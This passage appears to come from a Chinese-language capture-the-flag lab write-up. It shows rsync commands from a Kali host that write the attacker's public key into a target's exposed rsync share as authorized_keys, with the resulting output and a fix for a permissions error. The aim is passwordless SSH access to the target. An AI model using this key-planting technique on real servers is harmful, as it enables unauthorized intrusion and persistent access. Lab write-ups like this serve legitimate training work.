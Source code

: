 ```
| =o              |
|*.o   o       .  |
|*B   o o     . o |
|ooB   o S . . o.o|
|o..+   + . ...+o.|
|...   = .  . * +.|
| E . o +  . + +  |
|    ooo.o. .     |
+----[SHA256]-----+

```

尝试向目标.ssh目录写入公钥文件。

```
┌──(root㉿kali)-[~/.ssh]
└─# rsync -avz id_rsa.pub rsync-connect@10.10.0.182::files/sys-internal/.ssh             
Password: 
sending incremental file list
id_rsa.pub
rsync: chgrp "/sys-internal/.ssh/.id_rsa.pub.EYU86D" (in files) failed: Operation not permitted (1)

sent 699 bytes  received 139 bytes  62.07 bytes/sec
total size is 746  speedup is 0.89
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1338) [sender=3.2.7]
```

["rsync: failed to set permissions on ..." error with rsync -a or -p option](https://unix.stackexchange.com/questions/12203/rsync-failed-to-set-permissions-on-error-with-rsync-a-or-p-option)

去掉参数`-a`就可以将id_rsa.pub写入目标sys-internal/.ssh目录了。

-a: 表示归档模式，用于保持文件属性和目录结构。

-v: 表示启用详细输出。

-z: 表示启用压缩传输，可以加快传输速度。

你可以将 `id_rsa.pub` 文件复制到目标服务器的 `/sys-internal/.ssh` 目录，并将其重命名为 `authorized_keys`，从而实现将公钥添加到用户的 `authorized_keys` 文件中。这样，你在将文件复制到目标服务器时，就已经完成了公钥的添加。

以下是你可以使用的命令：

```bash
rsync -vz id_rsa.pub rsync-connect@10.10.0.182::files/sys-internal/.ssh/authorized_keys
```

这会将本地的 `id_rsa.pub` 文件复制到目标服务器的 `/sys-internal/.ssh` 目录，并将其重命名为 `authorized_keys`。这样，在目标服务器上，`/sys-internal/.ssh/authorized_keys` 文件将包含你的公钥，从而实现无密码认证的 SSH 登录。

请确保在执行命令之前确认路径和文件名是否正确，以及目标服务器上的权限设置是否允许此操作。

重启了一下实验室：

Target IP Address : 10.10.21.145

Kali Linux : 10.18.72.222

